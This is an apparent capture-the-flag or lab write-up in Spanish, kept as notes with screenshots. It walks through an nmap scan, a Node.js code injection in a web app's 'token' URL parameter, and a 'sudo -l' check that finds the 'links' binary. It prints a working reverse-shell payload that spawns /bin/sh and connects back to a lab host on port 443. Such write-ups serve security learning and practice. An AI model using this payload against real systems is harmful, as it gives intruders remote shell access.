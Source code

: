 Hacemos el escaneo con nmap:
![[Pasted image 20231002101011.png]]
Y esto es lo que corre por el puerto 5000:
![[Pasted image 20231002101152.png]]
Y si ponemos un texto en ese cuadro y damos a enter vemos que lo imprime por pantalla:
![[Pasted image 20231002101235.png]]
Pero vemos que nos cambia la url cada vez que añadimos algún parámetro:
![[Pasted image 20231002101402.png]]
Probamos en cambiar los parámetros de la url y la web crashea:
![[Pasted image 20231002101603.png]]
Y en esta web tenemos unas instrucciones de un payload que podemos utilizar para entablar una reverse shell:
https://medium.com/dont-code-me-on-that/bunch-of-shells-nodejs-cdd6eb740f73
![[Pasted image 20231002105041.png]]

```bash
192.168.0.24:5000/?name=mario&token=(function(){ var net = require('net'), cp = require('child_process'), sh = cp.spawn('/bin/sh', []); var client = new net.Socket(); client.connect(443, '192.168.0.63', function(){ client.pipe(sh.stdin); sh.stdout.pipe(client); sh.stderr.pipe(client); }); return /a/;})();
```
Si esto lo ponemos en el apartado de token, vemos que funciona:
![[Pasted image 20231002105150.png]]
![[Pasted image 20231002105158.png]]
Si ejecutamos un sudo -l vemos que podemos ejecutar un binario llamado links:
![[Pasted image 20231002105434.png]]
Y esto es lo que hace:
![[Pasted image 20231002105816.png]]
![[Pasted image 20231002105518.png]]

![[Pasted image 20231002105905.png]]

![[Pasted image 20231002105919.png]]
